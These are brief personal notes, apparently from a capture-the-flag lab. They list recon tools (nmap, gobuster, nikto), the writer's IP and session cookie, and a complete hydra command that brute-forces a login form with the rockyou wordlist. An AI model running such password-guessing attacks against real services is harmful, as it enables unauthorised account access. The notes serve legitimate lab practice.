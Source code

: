 ### ALWAYS CHECK THE PAGE SOURCE

### MY IP: 10.11.106.164

### start with nmap , gobuster and nikto

### PHPSESSID=lkcv8elqcg6bdjnfunrnitfkqs

### hydra http passssword bruteforce command: sudo hydra -l R1ckRul3s -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt 10.10.114.56 http-post-form "/login.php:username=R1ckRul3s&password=^PASS^:Invalid Password!"
